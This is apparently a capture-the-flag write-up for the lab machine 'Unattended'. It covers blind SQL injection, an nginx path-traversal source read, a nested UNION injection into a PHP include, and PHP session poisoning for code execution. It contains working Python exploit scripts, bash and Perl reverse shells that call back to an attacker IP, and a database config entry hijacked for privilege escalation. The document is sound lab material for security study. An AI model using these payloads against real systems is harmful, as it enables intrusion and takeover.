







# Unattended

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.56.92            
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-30 06:27 EST
Nmap scan report for 10.129.56.92
Host is up (0.0098s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

Did a detailed scan:

```
$ nmap -p 80,443 -sC -sV --min-rate 3000 10.129.56.92
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-30 06:29 EST
Nmap scan report for 10.129.56.92
Host is up (0.014s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http nginx 1.10.3
|_http-server-header: nginx/1.10.3
| ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
| Not valid before: 2018-12-19T09:43:58
|_Not valid after:  2021-09-13T09:43:58
|_http-title: Site doesn't have a title (text/html)
```

There's a custom domain to be added to `/etc/hosts`.

### Web Enum --> Blind SQLI

Visiting `www.nestedflanders.htb` returns the default Debian page:



I ran a `gobuster` directory scan with a few wordlists like `common.txt`. The machine is rather slow, so this took a while. Eventually, it will find some interesting stuff:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -u https://www.nestedflanders.htb 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://www.nestedflanders.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/dev                  (Status: 301) [Size: 185] [--> https://www.nestedflanders.htb/dev/]
/index.html           (Status: 200) [Size: 10701]
/index.php            (Status: 200) [Size: 1244]
/server-status        (Status: 200) [Size: 4135]
```

`/dev` returned nothing of interest. Visiting `index.php` returns this:


Reading the page source was rather unique, since it seems to index pages based on an `id` parameter.



The `id` for the About page was 465, and submitting `465'` results in a return to the main page. Interesting, as this could signify SQL Injection. I tested it with `465' AND 1=1-- -` and it returned me to the About page. Testing it with `AND 1=2` results in being redirected to the main page. This confirms there is an SQL injection vulnerability.

First, I had to test which SQL database this was running, and this could be done by testing either `version()` or `@@version`.

```python
import requests
import string
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

i = 1
while True:
    done = True
    for j in string.printable:
        param = {
        	'id': f"465' and substring(@@version,{i},1) = '{j}'-- -"
    	}
        r = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False)
        if "sorry" in r.text:
        	continue
        sys.stdout.write(j)
        sys.stdout.flush()
        i += 1
        done = False
        break

    if done:
        break
# output was 10.1.45-mariadb-0+deb9u1
```

This confirms it is MySQL, and usage of `substr` instead of `substring` works. Next, find the current database:

```
'AND (substr((SELECT database()),{i},1)) = '{j}' -- -
neddy
```

Next, find the table names within this thing via `group_concat`.

```
'AND (substr((SELECT group_concat(TABLE_NAME) FROM information_schema.tables WHERE table_schema='neddy'),{i},1)) = '{j}' -- -

config,customers,employees,filepath,idname,offices,orderdetails,orders,payments,productlines,products
```

The above took forever to generate, and there were way too many tables for me to enumerate via blind injection.

### Nginx LFI --> Source Code Access

Apart from the SQL database, there was only the `/dev` endpoint. I looked to Hacktricks for `nginx` exploits, since the detailed nmap scan told me this server was running on `nginx`.

Doing the Accutenix tests returns positive results:

```
$ curl -k https://www.nestedflanders.htb/dev../                            
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>

$ curl -k https://www.nestedflanders.htb/dev.../
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
```

This means that I could potentially read some files here. This is probably hosted in `/var/www/html`, and I wanted to read more about `index.php`, the page with the Blind SQLI.

```
$ curl -k https://www.nestedflanders.htb/dev../html/index.php
<RETURNS PAGE CODE>
```

I added my comments on the vuln:

```php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        ### no parameterisation of user input queries
        ### this allows for SQL Injection
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {

                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        ### Blind injection is set up here, whereby if there are issues with the query,
        ### it returns 25.
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);

## SEPARATE CODE BLOCK
<?php

$sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
if ($debug) { echo "sql: $sql<br>\n"; }

$result = $conn->query($sql);
if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                //if ($debug) { echo "rowid: ".$row['id']."<br>\n"; } // breaks layout
                echo '<div class="col-md-2"><a href="index.php?id='.$row['id'].'" target="maifreim">'.$row['name'].'</a></div>';
                }
} else {
?>
        <div class="col-md-2"><a href="index.php?id=25">main</a></div>
        <div class="col-md-2"><a href="index.php?id=465">about</a></div>
        <div class="col-md-2"><a href="index.php?id=587">contact</a></div>
        <?php
}

?>

## SEPARATE CODE BLOCK
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>
```

There was a dependency on some PHP file named with a hash, but it was useless.

Anyways, the code asked for a `$inc` parameter, which is taken from the `getPathFromTpl($conn,$tpl)` function, which is taken from the initial `getTplFromID` function.

### Source Code Analysis

Analysing this code was rather interesting, since I had to find a way to control the value of `$tpl` from `$conn`, and there were a few checks on the input passed in:

```php
if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
}
```

Checks these conditions:

1. `id` needs to be present.
2. `intval` of `id` == `id`
3. `intval(id)` equates to 25, 465 and 587.

I read the documentation for `intval`, and found that it was a terrible method of verifying whether an input was an integer:



I ran a test on my own device, and found that `intval` was easily bypassed, which allowed for the initial Blins SQL Injection exploit:

```php
<?php

echo intval('425 is awesome'); 
# output: 425
```

Next, let's look at the query used:

```php
$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
```

So `id=465` means that the `name` paramter is `about`. I used the earlier blind SQLI to enumerate `idname`:

```
465'AND (substr((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='idname'),{i},1)) = '{j}' -- -

id,name,disabled
```

Interesting. So `about` and `main` are possible names to be returned as `$tpl`. Let's take a look at the second function that uses this:

```php
function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}
```

I enumerated `filepath` too, since I could control `$tpl` in theory. I enumerated this `filepath` table. Interestingly, it just contained `<HASH>.php` file names:

```
465'AND (substr((SELECT group_concat(path) FROM filepath),{i},1)) = '{j}' -- -

787c75233b93aa5e45c3f85d130bfbe7.php...
```

This make sense, and the filename is then returned as `$inc` to be used in `include`. This opens a path for PHP file execution via `include`, and this is probably the way I have to get a shell.

To control this, I want the query to be something like:

```sql
SELECT path from filepath where name = ez UNION select /etc/passwd;
```

To bypass the first query and make it process only the query after `UNION`, can include an error like 1=2.

```sql
SELECT path from filepath where name = ez AND 1=2 UNION select /etc/passwd;
```

### Exploitation

Here's the attack path:
1. Bypass `id` checks (easy)
2. Control `$tpl` somehow
3. Somehow write a webshell or code into the machine
4. Access the webshell via SQL Injection to trigger LFI by controlling `$inc`.

Since we are injecting into 2 queries, need to have 2 sets of comments, as well as 2 sets of error queries via `UNION`:

```sql
-- first query
SELECT name FROM idname where id = 465' AND 1=2 UNION SELECT 'lol\' UNION SELECT \'/etc/passwd\' -- -'-- -
-- AND 1=2 causes id=465 to not be returned, returns the other strings and comments 
-- pass in the second embedded query as a string via escaped quotes
-- $tpl = lol UNION SELECT /etc/passwd -- -

-- second query
SELECT path from filepath where name = lol UNION SELECT /etc/passwd -- -;
```

This works in getting me an LFI:

```
$ curl -k -G --data-urlencode "id=465' AND 1=2 UNION SELECT 'lol\' UNION SELECT \'/etc/passwd\' -- -'-- -" https://www.nestedflanders.htb/index.php

<!-- <div align="center"> -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
<!-- </div> -->
```

Now, I need to somehow use this LFI for RCE. There were a few methods on Hacktricks, all of which involved reading the logs in the machine. 



I scripted a quick LFI script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

while True:
    file = input("Enter file to read: ")
    param = {
    	'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'{file}\\' -- -'-- -"
    }
   
    r = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False)
    print(r.text)
```

From here, I could read `/var/log/nginx/access.log`, and technically RCE is possible using this method but I struggled. I read the other methods from Hacktricks, and found that using PHP sessions worked.

I tried writing some extra cookies by adding `Cookie: PHPSESSID=n2jb3u50gv104k78v768i9h3h0; test=test` as a header, then reading `/var/lib/php/sessions/sess_<COOKIE>`, and it worked:

```
PHPSESSID|s:26:"n2jb3u50gv104k78v768i9h3h0";test|s:4:"test";<!-- </div> -->
```

Now I can set one of the cookies to be a urlencoded PHP command shell:

```php
<?php system('id');?>
```


This worked!



Now, time to chain the exploit together.

```python
import requests
import argparse
import re
import sys
import socket
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_my_ip():
	s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	s.connect(("10.10.10.1", 80))
	return s.getsockname()[0]

## PARSE ARGS
parser = argparse.ArgumentParser()
parser.add_argument('-n', '--nc-port', help='nc port', default=443)
parser.add_argument('--local-ip', '-i', help='local ip', default=None)
args = parser.parse_args()

ip = args.local_ip or get_my_ip()  # Assuming you have a function get_my_ip() defined
nc_port = args.nc_port

test_payload = urllib.parse.quote('<?php system("id");?>')
webshell = urllib.parse.quote('<?php system($_REQUEST["cmd"]); ?>')

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

BASE_URL = 'https://www.nestedflanders.htb/index.php'

## RETRIEVE COOKIE VIA FIRST GET REQUEST
headers = {
	'User-Agent':'innocent'
}
r = requests.get(BASE_URL, verify=False, proxies=proxies)
php_cookie = r.cookies["PHPSESSID"]
print("[+] Retrieved cookie: {}".format(php_cookie))

## TEST RCE
print("[+] Testing RCE...")
cookies = {
	'PHPSESSID':php_cookie,
	'shell':test_payload
}
print("[+] Writing webshell to run 'id'...")
r1 = requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies)

print('[+] Reading file via LFI via SQL')
params = {
		'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_{php_cookie}\\' -- -'-- -"
}
print(f"[+] Query used: {params}")
r2 = requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)

if not re.search(r"www-data", r2.text):
	print("[-] RCE Failed")
	sys.exit(1)

print("[+] RCE worked!")

## GET SHELL
print("[+] Getting shell now")
cookies = {
	'PHPSESSID': php_cookie,
	'rev':webshell
}

rev_shell = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(ip, nc_port)
print('[+] Payload used: {}'.format(rev_shell))
params = {
	'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_{php_cookie}\\' -- -'-- -",
	'cmd': rev_shell
}
print("[+] Triggering shell...")
requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)

## For some reason, two requests are needed!
requests.get(BASE_URL, cookies=cookies, verify=False, proxies=proxies, params=params)
```

Output:
```
$ python3 full_rce.py 
[+] Retrieved cookie: g5af2fh98qbavba35kvcbk16f2
[+] Testing RCE...
[+] Writing webshell to run 'id'...
[+] Reading file via LFI via SQL
[+] Query used: {'id': "465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'/var/lib/php/sessions/sess_g5af2fh98qbavba35kvcbk16f2\\' -- -'-- -"}
[+] RCE worked!
[+] Getting shell now
[+] Payload used: bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'
[+] Triggering shell..
```



## Privilege Escalation

There's a user `guly` on the machine, but I cannot access the flag there yet.

### MySQL Enum --> Overwrite Script Values

I found some MySQL creds earlier, may as well use them:

```
www-data@unattended:/var/www/html$ mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7203
Server version: 10.1.45-MariaDB-0+deb9u1 Debian 9.12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| neddy              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
| orders          |
| payments        |
| productlines    |
| products        |
+-----------------+
11 rows in set (0.00 sec)

```

There was a `config` table that I wanted to see more of:

```
MariaDB [neddy]> select * from config;
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
|  54 | offline                 | 0                                                                        |
|  55 | offline_message         | Site offline, please come back later                                     |
|  56 | display_offline_message | 0                                                                        |
|  57 | offline_image           |                                                                          |
|  58 | sitename                | NestedFlanders                                                           |
|  59 | editor                  | tinymce                                                                  |
|  60 | captcha                 | 0                                                                        |
|  61 | list_limit              | 20                                                                       |
|  62 | access                  | 1                                                                        |
|  63 | debug                   | 0                                                                        |
|  64 | debug_lang              | 0                                                                        |
|  65 | dbtype                  | mysqli                                                                   |
|  66 | host                    | localhost                                                                |
|  67 | live_site               |                                                                          |
|  68 | gzip                    | 0                                                                        |
|  69 | error_reporting         | default                                                                  |
|  70 | ftp_host                | 127.0.0.1                                                                |
|  71 | ftp_port                | 21                                                                       |
|  72 | ftp_user                | flanders                                                                 |
|  73 | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
|  74 | ftp_root                | /                                                                        |
|  75 | ftp_enable              | 1                                                                        |
|  76 | offset                  | UTC                                                                      |
|  77 | mailonline              | 1                                                                        |
|  78 | mailer                  | mail                                                                     |
|  79 | mailfrom                | nested@nestedflanders.htb                                                |
|  80 | fromname                | Neddy                                                                    |
|  81 | sendmail                | /usr/sbin/sendmail                                                       |
|  82 | smtpauth                | 0                                                                        |
|  83 | smtpuser                |                                                                          |
|  84 | smtppass                |                                                                          |
|  85 | smtppass                |                                                                          |
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
|  87 | smtphost                | localhost                                                                |
|  88 | smtpsecure              | none                                                                     |
|  89 | smtpport                | 25                                                                       |
|  90 | caching                 | 0                                                                        |
|  91 | cache_handler           | file                                                                     |
|  92 | cachetime               | 15                                                                       |
|  93 | MetaDesc                |                                                                          |
|  94 | MetaKeys                |                                                                          |
|  95 | MetaTitle               | 1                                                                        |
|  96 | MetaAuthor              | 1                                                                        |
|  97 | MetaVersion             | 0                                                                        |
|  98 | robots                  |                                                                          |
|  99 | sef                     | 1                                                                        |
| 100 | sef_rewrite             | 0                                                                        |
| 101 | sef_suffix              | 0                                                                        |
| 102 | unicodeslugs            | 0                                                                        |
| 103 | feed_limit              | 10                                                                       |
| 104 | lifetime                | 1                                                                        |
| 105 | session_handler         | file                                                                     |
+-----+-------------------------+--------------------------------------------------------------------------+
52 rows in set (0.00 sec)
```

Quite a few things, but most importantly, the `ftp_pass` could not be cracked, and there was a script present in the `checkrelease` variable:

```
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;    
```

I didn't know what this was doing, but it appeared to be running somewhat consistently. I updated the value with Perl reverse shell script:

```perl
use Socket;$i="10.10.14.27";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};
```

```
MariaDB [neddy]> update config set option_value='/usr/bin/perl /var/lib/php/sessions/rev.pl' where id =86;
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

After a while, I got a reverse shell:



### Grub Group --> Root

This user was part of the `grub` group, something that I had not seen before. I searched for all files users of this group had permissions over:

```
guly@unattended:~$ find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-13-amd64
/boot/initrd.img-4.9.0-8-amd64
/boot/initrd.img-4.19.0-25-amd64
```

Interesting... I made a copy and analysed these folders in `/tmp`.

```
guly@unattended:/tmp$ file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: gzip compressed data, last modified: Fri Dec  1 10:54:35 2023, from Unix

guly@unattended:/tmp$ mv initrd.img-4.9.0-8-amd64 initrd.img-4.9.0-8-amd64.gz
guly@unattended:/tmp$ gunzip initrd.img-4.9.0-8-amd64.gz
guly@unattended:/tmp$ file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: ASCII cpio archive (SVR4 with no CRC)
```

This was a CPIO file, and using `cpio` to extract it works:

```
guly@unattended:/tmp/output$ cpio -idv < ../initrd.img-4.9.0-8-amd64 
guly@unattended:/tmp/output$ ls -la
total 8
drwxr-xr-x 11 guly guly  240 Jan 30 11:07 .
drwxrwxrwt 13 root root  280 Jan 30 11:07 ..
drwxr-xr-x  2 guly guly 3600 Jan 30 11:07 bin
drwxr-xr-x  2 guly guly   60 Jan 30 11:07 boot
drwxr-xr-x  3 guly guly  120 Jan 30 11:07 conf
drwxr-xr-x  5 guly guly  240 Jan 30 11:07 etc
-rwxr-xr-x  1 guly guly 5960 Jan 30 11:07 init
drwxr-xr-x  9 guly guly  200 Jan 30 11:07 lib
drwxr-xr-x  2 guly guly   60 Jan 30 11:07 lib64
drwxr-xr-x  2 guly guly   40 Jan 30 11:07 run
drwxr-xr-x  2 guly guly 1160 Jan 30 11:07 sbin
drwxr-xr-x  8 guly guly  220 Jan 30 11:07 scripts
```

So there are a lot of file directories here. I checked for all files that contained `guly` and `root`.

```
guly@unattended:/tmp/output$ grep -R "guly" .
./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one

guly@unattended:/tmp/output/scripts/local-top$ file cryptroot 
cryptroot: POSIX shell script, ASCII text executable
```

There was one interesting part here:

```bash
if [ ! -e "$NEWROOT" ]; then
      # guly: we have to deal with lukfs password sync when root changes her one
      if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
        /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
             message "cryptsetup: cryptsetup failed, bad password or options?"
             sleep 3
             continue
        fi
      fi
```

I wasn't entirely sure what `unitrd` was, but the second parameter looked like a kind of password. I just ran it with the parameter:

```
guly@unattended:/tmp/output/sbin$ cp uinitrd ~
guly@unattended:/tmp/output/sbin$ cd 
guly@unattended:~$ chmod 777 uinitrd
guly@unattended:~$ ./uinitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6
```

This hash allowed me to `su` to `root`:



Rooted? I don't know why that worked. I read the writeup from 0xdf to find out why, and it was way more complex than I thought. This machine was for more OSWE prep, so I don't really want to dive into the specifics here.